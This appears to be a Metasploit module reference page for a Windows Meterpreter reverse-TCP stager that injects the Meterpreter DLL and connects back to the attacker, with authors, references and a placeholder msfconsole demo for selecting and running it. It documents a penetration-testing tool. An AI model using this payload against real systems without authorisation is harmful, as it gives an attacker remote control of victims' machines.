 ## Windows Meterpreter (Reflective Injection), Reverse TCP Stager (No NX or Win7)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged). Connect back to the attacker (No 
NX)


## Module Name
payload/windows/meterpreter/reverse_nonx_tcp

## Authors
* skape
* sf
* OJ Reeves
* vlad902


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter/reverse_nonx_tcp
msf payload(reverse_nonx_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_nonx_tcp) > set TARGET <target-id>
msf payload(reverse_nonx_tcp) > show options
   ... show and set options ...
msf payload(reverse_nonx_tcp) > run
```
    
    